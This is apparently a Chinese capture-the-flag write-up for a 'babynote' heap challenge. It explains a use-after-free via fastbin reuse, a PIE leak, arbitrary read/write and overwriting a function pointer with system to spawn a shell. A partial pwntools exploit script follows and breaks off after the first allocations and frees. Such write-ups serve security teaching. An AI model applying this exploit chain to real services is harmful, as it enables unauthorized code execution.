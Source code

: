 content的大小可以自己定义
	程序删除note的时候，并没有将对应存储指针的全局变量设为空，仍然可以被使用，存在uaf漏洞，考虑到note结构体的大小，可以用fastbin的uaf来做。
	首先分配两个note，note0和note1，两个note的content被malloc分配的大小设为与note结构体的大小不等，然后删除note0和note1，再添加note2，content大小申请为0xc，根据堆的分配规则，此时note2和note1指向同一个fastbin，note2的content和note0指向同一个fastbin。由于程序开启了pie，首先要想办法确定elf的地址，然后才能泄漏libc，这里可以通过填充note2的content与note0上的函数指针void (*print)(struct note *)相连，来打印函数指针的地址，确定elf的地址。然后继续修改note2的content，改变note0的content指针，可以实现任意地址读写，最后可以修改note0的函数指针为system，并在结构体头部放置/bin/sh，调用打印函数来获取shell，exp如下：
```python
from pwn import*

printf_got = 0x3010
libc_system = 0x0003ADA0
libc_printf  = 0x00049670 

def add(size,content):
	io.recvuntil("Your choice :")
	io.sendline('1')
	io.recvuntil("Content size:")
	io.sendline(size)
	io.recvuntil("Input the content:")
	io.send(content)
	io.recvuntil("Success !\n")
	
def edit(index,content):
	io.recvuntil("Your choice :")
	io.sendline('2')
	io.recvuntil("Input the index:")
	io.sendline(index)
	io.recvuntil("New content:")
	io.sendline(content)
	io.recvuntil("Success !\n")

def delete(index):
	io.recvuntil("Your choice :")
	io.sendline('4')
	io.recvuntil("Input the index:")
	io.sendline(index)
	io.recvuntil("Success !\n")

def printnote(index,flag = 0):
	io.recvuntil("Your choice :")
	io.sendline('3')	
	io.recvuntil("Input the index:")
	io.sendline(index)
	if flag == 0:
		io.recvuntil("aaaaaaa\n")
		addr = io.recv(4)
		io.recvuntil("\n")
		return int(addr[0:4][::-1].encode("hex"),16)
	else:
		addr = io.recvuntil("\n")
		return int(addr[0:4][::-1].encode("hex"),16)

def exit():
	io.recvuntil("Your choice :")
	io.sendline('5')

#io = process("./babynote")
io = remote("127.0.0.1",40004)

add('100',"111\n")
add('100',"222\n")
delete('0')
delete('1')
```
